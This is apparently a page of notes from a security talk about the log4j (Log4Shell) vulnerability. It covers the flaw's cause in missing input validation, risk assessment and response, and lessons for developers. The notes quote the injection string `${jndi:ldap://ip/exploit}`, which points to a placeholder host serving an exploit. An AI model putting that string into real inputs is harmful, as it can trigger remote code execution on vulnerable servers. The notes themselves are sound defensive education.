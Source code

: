 # Partner Power Hour 3 - How log4j broke the internet - 01/22/2022

**presenter**: David Lee

- security engineer @AWS
  - indicent response
  - Risk analysis and migration
  - Security guidance

Today, David Lee was talking about how log4j broke the internet and sharing the lessons learned from it. The log4j vulnerability was disclosed to Apache in 11/24/2021 and it developed to a big security issue we have ever seen.

- Problem: log4shell allows RCE (Remote Code Excution)
- Root cause: Bad Input validation
  - Log4shell exploits JNDI and LDAP to let an attacker issue commands `${jndi:ldap://ip/exploit}`
  - lack of input validation
  - Log4j completely ignores input validation and host excutes whatever it sees come in through JNDI/LDAP
- A level of risk is determined by three factors:

  - Threat likelihood
  - Asset value
  - Vulnerability exposure

- Four ways to responde a risk

  - Avoid
  - Mitigate
  - Transfer
  - Accept

- Lessons learned for Devs

  - Know 3p risks
  - Supply chain security
  - Risk analysis of partner apps
  - Use a DevOps pipeline
  - Defense in depth
  - Reduce risk

- Terminology
  - A valnerability is a weakness in a system that could potentially be exploited given the right circumstancs
  - CVSS - Common Vulnerability Scoring System - assess the severity
